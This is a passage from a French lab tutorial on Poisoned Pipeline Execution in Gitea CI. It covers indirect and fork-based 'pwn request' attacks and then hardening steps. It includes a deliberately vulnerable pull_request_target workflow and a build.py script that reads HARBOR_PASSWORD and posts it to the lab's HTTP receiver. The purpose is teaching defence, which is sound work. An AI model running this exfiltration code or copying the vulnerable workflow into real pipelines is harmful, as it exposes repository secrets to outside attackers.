Une fois la PR fusionnée, le pipeline démarre normalement et exécute pytest.

Au moment du chargement de `conftest.py`, le code ajouté est exécuté.

Revenons sur notre serveur de réception.

Si le secret a bien été transmis au niveau du job, nous devons observer une requête contenant sa valeur.

Exemple :

```
[+] Nouvelle donnée reçue
[+] Chemin : /collect
[+] Contenu : {
  "event": "pytest_collection",
  "harbor_password": "PPE-LAB-HARBOR-2026-CHANGE-ME"
}
```

Nous venons de reproduire une seconde variante de PPE.

Cette fois, le workflow n'a pas été modifié. L'exécution malveillante provient d'un fichier applicatif chargé automatiquement par le processus de test.

**La protection de notre pipeline couvrait donc un périmètre trop restreint : elle protégeait le YAML, mais pas l'ensemble des fichiers qui participent à son exécution.**

À noter : si le secret n'est pas exposé à l'environnement du job, le code de `conftest.py` ne pourra pas le récupérer par cette méthode. L'exécution de code arbitraire et l'accès à un secret sont deux problèmes distincts.



## Attaque 3 - Public / Third-party PPE

### Comprendre le scénario

Jusqu'à présent, les deux attaques ont été réalisées par un contributeur interne.

Nous allons maintenant passer à un scénario plus sensible : un attaquant totalement extérieur à l'organisation propose une modification via un fork.

Le risque apparaît lorsqu'un workflow est déclenché avec `pull_request_target`, puis récupère et exécute le code provenant directement de la Pull Request.

La particularité de `pull_request_target` est que le workflow s'exécute dans le contexte de la branche de base. Il peut donc disposer de permissions et d'un accès aux secrets différents de ceux d'un workflow classique déclenché par `pull_request`.

**Combiner ce déclencheur avec l'exécution du code non fiable provenant du fork constitue un anti-pattern connu sous le nom de « pwn request ».**

### Préparer le workflow vulnérable

Pour simuler ce scénario, nous allons créer un workflow de démonstration distinct.

Il doit être déclenché par :

```yaml
on:
  pull_request_target:
```

Le job récupère ensuite le dépôt et le commit provenant de la PR :

```yaml
- name: Checkout pull request code
  uses: actions/checkout@v4
  with:
    repository: ${{ github.event.pull_request.head.repo.full_name }}
    ref: ${{ github.event.pull_request.head.sha }}
```

Cette combinaison est volontairement vulnérable : le workflow s'exécute dans le contexte de la branche de base, mais récupère le code du fork.

Pour matérialiser l'impact, le job peut transmettre le secret à l'environnement du processus de build :

```yaml
- name: Build pull request code
  env:
    HARBOR_PASSWORD: ${{ secrets.HARBOR_PASSWORD }}
  run: python build.py
```

Le point critique est maintenant présent : du code provenant d'un dépôt externe peut être exécuté dans un job qui dispose du secret du dépôt d'origine.

Cette configuration est uniquement destinée à notre environnement de laboratoire. Elle ne doit jamais être utilisée sur un dépôt contenant de véritables secrets.

Voici le fichier workflow complet

```yaml
name: CI - Tests applicatifs

on:
  pull_request_target:
    branches:
      - main

jobs:
  test:
    name: Tests applicatifs
    runs-on: ubuntu-24.04

    steps:
      - name: Récupérer le code de la Pull Request
        uses: actions/checkout@v4
        with:
          repository: ${{ github.event.pull_request.head.repo.full_name }}
          ref: ${{ github.event.pull_request.head.sha }}

      - name: Configurer Python
        uses: actions/setup-python@v5
        with:
          python-version: "3.12"

      - name: Installer les dépendances
        run: python -m pip install -r requirements.txt

      - name: Exécuter les tests
        run: python -m pytest -v

      - name: Vérification expérimentale
        env:
          HARBOR_PASSWORD: ${{ secrets.HARBOR_PASSWORD }}
        run: python build.py
```

### Créer le fork et la Pull Request

Connectons-nous avec le compte externe créé à l'étape 1 (`ext-alice`).

Depuis `dsg-app`, créons un fork personnel.





Dans ce fork, ajoutons un fichier `build.py` contenant le même principe de démonstration que précédemment : lecture du secret transmis par l'environnement du job et envoi vers notre récepteur HTTP.

```python
import os
import json
import urllib.request

secret = os.environ.get("HARBOR_PASSWORD")

if secret:
    data = json.dumps({
        "event": "external_fork_build",
        "harbor_password": secret
    }).encode()

    request = urllib.request.Request(
        "http://host.docker.internal:8080/collect",
        data=data,
        headers={"Content-Type": "application/json"},
        method="POST"
    )

    urllib.request.urlopen(request)
```



Poussons cette modification sur le fork, puis ouvrons une Pull Request vers le dépôt original `dsg-app`.



Nous avons maintenant un contributeur externe qui ne dispose d'aucun droit direct sur le dépôt, mais qui propose du code destiné à être traité par son pipeline.

### Observer le comportement de Gitea

C'est ici que nous devons être particulièrement attentifs à la configuration de notre instance.

Selon la version de Gitea et ses paramètres de sécurité, les workflows provenant de forks peuvent être soumis à une approbation préalable avant leur exécution.

Nous allons donc observer deux situations distinctes.

**Premier cas : la passerelle d'approbation est active.**

La Pull Request reste en attente d'une approbation avant que le workflow puisse être exécuté.

Le code du fork n'est pas encore lancé par le runner. Notre récepteur ne doit donc recevoir aucune donnée.



**Deuxième cas : la passerelle est désactivée dans notre configuration de laboratoire.**

Si Gitea autorise l'exécution automatique du workflow, nous pouvons observer le comportement du job.

Si le workflow est bien pris en charge par notre version de Gitea, si le contexte `pull_request_target` est correctement appliqué et si le secret est accessible à l'étape de build, le code provenant du fork pourra s'exécuter avec les permissions du job.

Notre récepteur pourra alors recevoir la valeur du secret fictif.

Il est important de ne pas confondre les deux résultats : l'existence d'un workflow vulnérable ne signifie pas automatiquement que Gitea autorise son exécution sans approbation. La passerelle constitue une protection supplémentaire, mais elle ne remplace pas une configuration sûre du workflow.

Si nous acceptons le `fork` avec le compte `leadev-william`





Le workflow se déclenchera normalement, et nous pouvons exfiltrer le secret.

## Durcissement 1 : Réduire l'exposition des secrets

Les deux premières démonstrations nous ont montré qu'un code exécuté par le pipeline peut accéder aux secrets lorsqu'ils sont mis à sa disposition.

Une première mesure consiste donc à limiter strictement les secrets accessibles à chaque job.

Dans notre exemple, `HARBOR_PASSWORD` n'a aucune raison d'être disponible pendant une simple compilation ou une exécution de tests.

Nous allons donc séparer les responsabilités :

- Un job de build/test qui ne dispose d'aucun secret de déploiement.
- Un job de déploiement qui accède au secret uniquement lorsqu'il en a réellement besoin.

L'organisation cible ressemble à ceci :

```yaml
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Install dependencies
        run: pip install -r requirements.txt

      - name: Run tests
        run: pytest

  deploy:
    needs: build
    runs-on: ubuntu-latest
    steps:
      - name: Deploy
        env:
          HARBOR_PASSWORD: ${{ secrets.HARBOR_PASSWORD }}
        run: echo "Deployment step"
```

Le secret n'est désormais référencé que dans le job de déploiement.

Dans un environnement de production, il faut également isoler ce job derrière un environnement de déploiement protégé, avec approbation manuelle si la plateforme le permet.

Si notre version de Gitea ne propose pas cette fonctionnalité ou ne permet pas de garantir cette approbation, il faudra envisager une séparation plus forte : dépôt de déploiement dédié, secrets distincts ou système externe de gestion des secrets.

### Vérification

Rejouons maintenant l'attaque Direct PPE, mais cette fois dans le job `build`.

Le payload tente toujours de récupérer :

```
secret = os.environ.get("HARBOR_PASSWORD")
```

Le résultat attendu est que cette variable soit absente ou vide.

Le serveur de réception ne doit donc plus recevoir la valeur du secret.

Nous avons réduit l'impact potentiel d'une modification malveillante du job de build : même si la revue humaine échoue, le secret de déploiement n'est plus accessible dans ce contexte.

## Durcissement 2 : Protéger les fichiers exécutés indirectement

L'attaque Indirect PPE a montré que protéger uniquement les fichiers YAML ne suffit pas.

Nous devons donc élargir le périmètre de nos protections aux fichiers qui peuvent être exécutés automatiquement par le pipeline.

Dans notre projet Python, plusieurs fichiers méritent une attention particulière :

- `.gitea/workflows/**`
- `conftest.py`
- `setup.py`
- `pyproject.toml`
- Les scripts de build et de déploiement.
- Les scripts de test et leurs fichiers de configuration.

Nous allons étendre notre fichier `CODEOWNERS`.

Par exemple :

```
.gitea/workflows/  @dsg-solutions/security
conftest.py        @dsg-solutions/security
setup.py           @dsg-solutions/security
pyproject.toml      @dsg-solutions/security
scripts/            @dsg-solutions/security
tests/              @dsg-solutions/security
```

Les noms des équipes et des comptes doivent évidemment correspondre à ceux présents sur notre instance Gitea.

Il faut également vérifier que la protection des fichiers sensibles est effectivement activée dans la configuration Gitea utilisée pour les branches protégées, notamment via `protected_file_patterns` lorsque cette fonctionnalité est disponible dans notre version.

La présence d'un fichier `CODEOWNERS` ne suffit pas si Gitea ne l'applique pas correctement aux chemins concernés.

### Vérification

Reprenons maintenant notre scénario Indirect PPE.

Avec `dev.antony`, modifions à nouveau `conftest.py` et ouvrons une Pull Request.

Cette fois, la modification doit déclencher la même exigence de revue que celle appliquée au workflow.

Nous avons ainsi étendu la protection au-delà du YAML, en couvrant les éléments susceptibles d'influencer directement l'exécution du pipeline.

## Durcissement 3 : Sécuriser les workflows déclenchés par les forks

La dernière variante a mis en évidence le danger d'un workflow qui combine un déclencheur `pull_request_target` avec l'exécution du code provenant d'un fork.

La règle à retenir est simple :

**Ne jamais exécuter du code non fiable provenant d'une Pull Request dans un workflow disposant des secrets ou des permissions de la branche de base.**

Dans la majorité des cas, le choix le plus simple consiste à remplacer :

```yaml
on:
  pull_request_target:
```

par :

```yaml
on:
  pull_request:
```

Le workflow classique `pull_request` est conçu pour traiter les contributions externes dans un contexte plus restrictif. Il ne faut toutefois pas considérer ce seul changement comme une garantie absolue : les permissions du job, les secrets et les actions utilisées doivent toujours être vérifiés.

Si `pull_request_target` est réellement nécessaire, par exemple pour ajouter un label ou commenter une PR, le workflow doit rester limité à des opérations sur les métadonnées de la Pull Request.

Il ne doit jamais récupérer puis exécuter le code du fork.

Enfin, vérifions les paramètres de Gitea relatifs à l'approbation des workflows provenant de forks. Nous devons confirmer que cette barrière est active et observer son fonctionnement sur notre instance.

### Vérification

Rejouons le scénario avec le compte externe.

Le fork contient toujours le fichier `build.py` modifié.

Ouvrons une nouvelle Pull Request vers `dsg-app`.

Le résultat attendu est double :

- Le code externe ne doit pas être exécuté dans un job disposant des secrets du dépôt d'origine.
- Notre serveur de réception ne doit recevoir aucune valeur de `HARBOR_PASSWORD`.

Même si la configuration d'approbation des forks est désactivée dans le laboratoire, le workflow durci ne doit pas permettre l'exécution du code externe dans un contexte privilégié.

## Consolidation et preuves

Nous avons maintenant étudié les trois principales variantes du PPE et appliqué plusieurs mesures de protection.

Pour terminer le laboratoire, nous allons constituer un dossier de preuves permettant de comparer les résultats avant et après durcissement.

| Variante | Avant durcissement | Après durcissement |
| --- | --- | --- |
| Direct PPE | Le workflow modifié peut accéder au secret | Le job de build n'a plus accès au secret de déploiement |
| Indirect PPE | Le fichier exécuté indirectement peut introduire du code | Les fichiers exécutés sont également protégés |
| Public PPE | Le code du fork peut être exécuté dans un contexte privilégié si la configuration est vulnérable | Le code du fork n'est plus exécuté avec les secrets de la branche de base |

## Conclusion

Ce laboratoire nous a permis de mettre en évidence trois façons de détourner l'exécution d'un pipeline CI/CD.

Le Direct PPE montre qu'une modification du workflow, même approuvée, peut introduire une action malveillante. L'Indirect PPE démontre qu'il est possible d'obtenir une exécution de code sans toucher au YAML, simplement en modifiant un fichier chargé automatiquement par le pipeline. Enfin, le Public PPE illustre les risques liés au traitement des Pull Requests externes, particulièrement lorsque `pull_request_target` est associé à l'exécution du code provenant d'un fork.

Ces scénarios montrent que les protections Git traditionnelles, même correctement configurées, ne suffisent pas à garantir la sécurité d'une chaîne CI/CD.

La sécurisation doit aller plus loin :

- Les secrets doivent être cloisonnés et accessibles uniquement aux jobs qui en ont besoin.
- Les protections de revue doivent couvrir tous les fichiers susceptibles d'influencer l'exécution du pipeline.
- Le code provenant de contributeurs externes ne doit jamais être exécuté dans un contexte privilégié.
- Les workflows déclenchés par des forks doivent être soumis à des règles de permissions et d'approbation adaptées.

**Le point central du PPE est finalement le suivant : contrôler qui peut modifier le pipeline ne suffit pas. Il faut également contrôler ce que le pipeline exécute, dans quel contexte et avec quelles permissions.**